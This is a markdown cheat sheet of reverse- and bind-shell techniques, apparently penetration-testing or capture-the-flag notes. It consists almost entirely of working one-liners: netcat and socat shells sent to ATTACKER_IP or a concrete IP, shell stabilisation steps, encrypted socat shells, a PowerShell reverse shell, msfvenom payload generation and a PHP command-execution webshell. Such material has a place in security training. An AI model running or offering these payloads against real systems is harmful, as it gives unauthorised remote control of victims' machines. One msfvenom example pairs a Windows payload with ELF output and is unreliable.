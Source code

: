 ## Netcat
The default tools for connecting reverse and bind shells
```bash
nc -lvnp 9001   # open reverse shell in attack machine
nc ATTACKER_IP 9001 -e /bin/bash   # nc reverse shell from target

nc -lvnp 9001 -e /bin/bash   #open bind shell in target
nc TARGET_IP 9001   # connect to bind shell from attacker machine

# Stabilize shell with:
python -c `import pty; pty.spawn("/bin/bash")` # open pty in target
export TERM=xterm   # give access to term command
#background shell to attacking machine with CTRL-Z
stty raw -echo; fg # + enter twice from attacker machine

# change terminal tty size:
stty -a # look at the current tty settings in our machine
stty rows <number> # adjust rows
stty cols <number  # and columns to be the same as our machine
```

You can also use rlwrap to give a somewhat stable shell, particularly useful for windows. 
`rlwrap nc -lvnp 9001`

## Socat
A more robust tools for shell. You can get it from:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

```bash
socat TCP-L:9001 -   # this is the same as nc -lvnp 9001

# revese shell command for windows:
socat TCP:ATTACKER_IP:9001 EXEC:powershell.exe,pipes
# for linux:
socat TCP:ATTACKER_IP:9001 EXEC:"bash -li"

#bind shell for linux:
socat TCP-L:<PORT> EXEC:"bash -li"
#for windows:
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
# connect from attacker with:
socat TCP:<TARGET-IP>:<TARGET-PORT> -

# For a more stable reverse shell for linux:
socat TCP-L:<port> FILE:`/dev/tty`,raw,echo=0  # in attacking machine
# from the target, must use socat to connect with:
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

# Steps to creating encrypted shells connection in socat

#Create certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.cr
#merge the two output into .pem file
cat shell.key shell.crt > shell.pem
#open listener in attacker:
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
# connect from target with:
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

#or with bind shell from target
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
# and connect from attacker:
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

## Common Payloads
Because -e from netcat sometimes not available, use this payload instead:
```bash
# opening bind shell in target
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
# and for reverse shell:
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.50.18 4182 >/tmp/f

#one liner widows powershell reverse connection:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
And of course the PayloadAllTheThings page:  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## msfvenom
create payload
the _ named file is the stageless payload, whereas one separated with / is staged. example: `windows/x64/meterpreter_reverse_tcp` is stageless, whereas  `windows/x64/meterpreter/reverse_tcp`  is staged.
The staged or meterpreter shell must be catched from metasploit multi/handler module.
```bash
msfvenom --list payloads # list all payloads

#example
msfvenom -p windows/x64/shell/reverse_tcp -f elf -o shell LHOST=10.4.50.18 LPORT=4182
```

## webshell
php: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
